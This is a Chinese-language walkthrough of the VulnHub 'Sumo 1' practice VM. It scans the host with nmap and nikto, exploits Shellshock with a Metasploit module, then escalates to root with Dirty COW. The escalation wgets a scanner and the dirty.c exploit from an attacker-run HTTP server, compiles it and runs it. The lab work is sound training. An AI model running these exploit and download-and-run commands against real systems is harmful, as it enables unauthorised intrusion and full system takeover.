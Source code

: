 # Sumo 脏牛提权

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/sumo-1,480/

## 知识点

- 脏牛提权

## 信息收集

```bash
ifconfig eth0 # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.171
```
## 漏洞利用

```bash
nikto -h http://10.30.0.171 # 扫描网站漏洞
```
![](./img/vulnhub-sumo-1.png)

发现存在CVE-2014-6271


```bash
msfconsole
search CVE-2014-6271
use exploit/multi/http/apache_mod_cgi_bash_env_exec

set RHOSTS 10.30.0.171
set TARGETURI /cgi-bin/test
exploit
shell
whoami
```
![](./img/vulnhub-sumo-2.png)

### 脏牛提权

- 扫描是否存在脏牛漏洞脚本scan-dirtycow.sh
    - https://github.com/aishee/scan-dirtycow/blob/master/dirtycowscan.sh

```bash
python -m SimpleHTTPServer # kali

# 目标
python -c "import pty;pty.spawn('/bin/bash')"
cd /tmp
wget http://10.30.0.81:8080/dirtycowscan.sh
chmod +x dirtycowscan.sh
./dirtycowscan.sh
```

![](./img/vulnhub-sumo-3.png)

```
exp：dirty.c
- https://www.exploit-db.com/raw/40839

wget http://10.30.0.81:8080/dirty.c
chmod 777 dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty testpasswd
su firefart
testpasswd
```
![](./img/vulnhub-sumo-4.png)

## 参考链接
- https://dummersoul.top/2021/01/05/%E8%84%8F%E7%89%9B%E6%8F%90%E6%9D%83(CVE-2016-5195)/
- https://www.yuque.com/beret81/ge40ev/lkt282
- https://www.cnblogs.com/jpSpaceX/articles/14923377.html
- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/cpyz8h